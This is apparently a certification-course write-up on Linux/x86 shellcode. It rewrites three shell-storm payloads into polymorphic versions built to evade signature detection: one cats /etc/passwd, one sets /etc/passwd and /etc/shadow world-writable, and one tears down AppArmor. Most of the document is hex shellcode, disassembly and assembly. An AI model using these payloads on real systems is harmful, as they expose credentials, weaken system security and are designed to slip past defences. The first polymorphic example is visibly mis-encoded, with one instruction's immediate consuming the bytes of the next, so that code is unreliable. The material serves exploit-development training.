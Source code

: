 # Assignment 6

## What to do
- Take up 3 shellcodes from shell-storm and create the polymorphic versions of them to beat pattern matching
- The polymorphic versions cannot be larger 50% of the existing shellcode
- Bonus points for making it shorter in length than original

Polymorphism can be achieved by replacing instruction by equivalent ones and by adding garbage instructions which do not change the functionality of the shellcode in any way.

##### > /bin/cat /etc/passwd

The first shellcode for which the polymorphic version we are going to create is:

> Linux/x86 - bin/cat /etc/passwd - 43 bytes by fb1h2s

and it is located in http://shell-storm.org/shellcode/files/shellcode-571.php

The Assembly of this shellcode:

```zsh
$ echo -ne "\x31\xc0\x99\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe1\xb0\x0b\x52\x51\x53\x89\xe1\xcd\x80" | ndisasm -u -
00000000  31C0              xor eax,eax
00000002  99                cdq
00000003  52                push edx
00000004  682F636174        push dword 0x7461632f
00000009  682F62696E        push dword 0x6e69622f
0000000E  89E3              mov ebx,esp
00000010  52                push edx
00000011  6873737764        push dword 0x64777373
00000016  682F2F7061        push dword 0x61702f2f
0000001B  682F657463        push dword 0x6374652f
00000020  89E1              mov ecx,esp
00000022  B00B              mov al,0xb
00000024  52                push edx
00000025  51                push ecx
00000026  53                push ebx
00000027  89E1              mov ecx,esp
00000029  CD80              int 0x80
```

The polymorphic version of the shellcode is 62 bytes long. Below is the assembly code:
```zsh
echo -ne "\x31\xc0\x99\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\xbe\x62\x62\x66\x53\x81\xc6\x11\x11\x11\x11\x89\x74\x24\xfc\xc7\x44\x24\xf8\x2f\x2f\x61\xc7\x44\x24\xf4\x2f\x65\x63\x83\xec\x0c\x89\xe1\xb0\x0b\x52\x51\x53\x89\xe1\xcd\x80" | ndisasm -u -
00000000  31C0              xor eax,eax
00000002  99                cdq
00000003  52                push edx
00000004  682F636174        push dword 0x7461632f
00000009  682F62696E        push dword 0x6e69622f
0000000E  89E3              mov ebx,esp
00000010  52                push edx
00000011  BE62626653        mov esi,0x53666262
00000016  81C611111111      add esi,0x11111111
0000001C  897424FC          mov [esp-0x4],esi
00000020  C74424F82F2F61C7  mov dword [esp-0x8],0xc7612f2f
00000028  44                inc esp
00000029  24F4              and al,0xf4
0000002B  2F                das
0000002C  656383EC0C89E1    arpl [gs:ebx-0x1e76f314],ax
00000033  B00B              mov al,0xb
00000035  52                push edx
00000036  51                push ecx
00000037  53                push ebx
00000038  89E1              mov ecx,esp
0000003A  CD80              int 0x80
```

##### > chmod 666 /etc/passwd & /etc/shadow

The second shellcode for which the polymorphic version we are going to create is:

> Linux/x86 - chmod 666 /etc/passwd & /etc/shadow - 57 bytes by Jean Pascal Pereira

and it is located in http://shell-storm.org/shellcode/files/shellcode-812.php

The assembly of this shellcode is:
```zsh
$ echo -ne "\x31\xc0\x66\xb9\xb6\x01\x50\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\xb0\x0f\xcd\x80\x31\xc0\x50\x68\x61\x64\x6f\x77\x68\x2f\x2f\x73\x68\x68\x2f\x65\x74\x63\x89\xe3\xb0\x0f\xcd\x80\x31\xc0\x40\xcd\x80" | ndisasm -u -
00000000  31C0              xor eax,eax
00000002  66B9B601          mov cx,0x1b6
00000006  50                push eax
00000007  6873737764        push dword 0x64777373
0000000C  682F2F7061        push dword 0x61702f2f
00000011  682F657463        push dword 0x6374652f
00000016  89E3              mov ebx,esp
00000018  B00F              mov al,0xf
0000001A  CD80              int 0x80
0000001C  31C0              xor eax,eax
0000001E  50                push eax
0000001F  6861646F77        push dword 0x776f6461
00000024  682F2F7368        push dword 0x68732f2f
00000029  682F657463        push dword 0x6374652f
0000002E  89E3              mov ebx,esp
00000030  B00F              mov al,0xf
00000032  CD80              int 0x80
00000034  31C0              xor eax,eax
00000036  40                inc eax
00000037  CD80              int 0x80
```

The polymorphic version of the shellcode is 84 bytes long. Below is the assembly code:
```assembly
global _start

section .text
_start:

	mov esi, 0x6374652f
	jmp shellcode

	mov eax, 0xfffffff0
	not eax
	int 0x80
	xor eax, eax
	inc eax
	ret

shellcode:

	xor eax,eax
	mov cx,0x1b6
	push eax
	mov dword [esp-4], 0x64777373
	mov dword [esp-8], 0x61702f2f
	sub esp,8
	push esi
	mov ebx, esp

	call $-42
	dec eax
	push eax
	mov edx, 0x76f64617
	ror edx, 4
	push edx
	mov edx, 0xf68732f2
	rol edx, 4
	push edx

	push esi
	mov ebx, esp

	call $-70
	int 0x80
```

##### > /etc/init.d/apparmor teardown

The last shellcode for which the polymorphic version we are going to create is:

> Linux/x86 - /etc/init.d/apparmor teardown - 53 bytes by John Babio

and it is located in http://shell-storm.org/shellcode/files/shellcode-765.php

The assembly of this shellcode is:
```zsh
$ echo -ne "\x6a\x0b\x58\x31\xd2\x52\x68\x64\x6f\x77\x6e\x68\x74\x65\x61\x72\x89\xe1\x52\x68\x72\x6d\x6f\x72\x68\x61\x70\x70\x61\x68\x74\x2e\x64\x2f\x68\x2f\x69\x6e\x69\x68\x2f\x65\x74\x63\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" | ndisasm -u -
00000000  6A0B              push byte +0xb
00000002  58                pop eax
00000003  31D2              xor edx,edx
00000005  52                push edx
00000006  68646F776E        push dword 0x6e776f64
0000000B  6874656172        push dword 0x72616574
00000010  89E1              mov ecx,esp
00000012  52                push edx
00000013  68726D6F72        push dword 0x726f6d72
00000018  6861707061        push dword 0x61707061
0000001D  68742E642F        push dword 0x2f642e74
00000022  682F696E69        push dword 0x696e692f
00000027  682F657463        push dword 0x6374652f
0000002C  89E3              mov ebx,esp
0000002E  52                push edx
0000002F  51                push ecx
00000030  53                push ebx
00000031  89E1              mov ecx,esp
00000033  CD80              int 0x80
```

The polymorphic version of the shellcode is 80 bytes long. Below is the assembly code:

```assembly
global _start

section .text
_start:

	xor esi, esi
	push esi
	;push dword 0x6e776f64
	mov ecx, 0x11111111
	add ecx, 0x5d665e53
	push ecx

	;push dword 0x72616574
	add ecx, 0x03e9f610
	push ecx
	mov ecx, esp
	push esi
	;push dword 0x726f6d72
	mov dword [esp-4], 0x726f6d72
	;push dword 0x61707061
	mov dword [esp-8], 0x61707061
	;push dword 0x2f642e74
	mov dword [esp-12], 0x2f642e74
	;push dword 0x696e692f
	mov dword [esp-16], 0x696e692f
	;push dword 0x6374652f
	mov dword [esp-20], 0x6374652f
	sub esp, 20

	mov ebx,esp
	push esi
	push ecx
	push ebx
	mov ecx,esp

	push byte +0xb
	pop eax
	int 0x80
```

## Statement
This page has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student-ID: SLAE-998
